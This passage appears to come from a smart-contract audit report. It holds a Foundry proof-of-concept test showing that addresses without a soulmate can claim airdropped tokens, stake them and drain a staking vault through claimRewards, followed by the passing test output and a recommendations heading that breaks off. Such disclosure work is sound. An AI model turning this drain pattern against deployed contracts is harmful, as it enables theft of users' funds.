 ```javascript
function test_ClaimRewardsWithoutSoulmate() public {
        string[9] memory arr = ["0", "1", "2", "3", "4", "5", "6", "7", "8"];

        vm.warp(1707770320); // timestamp for Feb-12-2024 08:34:59 PM +UTC, 2823 weeks since Jan 01 1970. (UTC)

        for (uint i = 0; i < 9; i++) {
            address lonely = makeAddr(string.concat("lonely", arr[i]));

            vm.prank(lonely);
            airdropContract.claim(); // loveToken.balanceOf(lonely) == 19765 ether

            vm.prank(lonely);
            loveToken.approve(address(stakingContract), 19765 ether);

            uint neededDeposit = 19765 ether;

            if (i == 8) {
                uint stakeContractBalance = loveToken.balanceOf(address(stakingVault));
                neededDeposit = stakeContractBalance / 2823; // stakeContractBalance % 2823 = 1955
            }

            vm.prank(lonely);
            stakingContract.deposit(neededDeposit);


            vm.prank(lonely);
            stakingContract.claimRewards();
        }

        assertTrue(loveToken.balanceOf(address(stakingVault)) == 1955);
    }
```

Output:

```text
Running 1 test for test/unit/StakingTest.t.sol:StakingTest
[PASS] test_ClaimRewardsWithoutSoulmate() (gas: 1245740)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.70ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Tools Used

Manual review, foundry.

## Recommendations

Make the following changes in `Staking.claimRewards()`

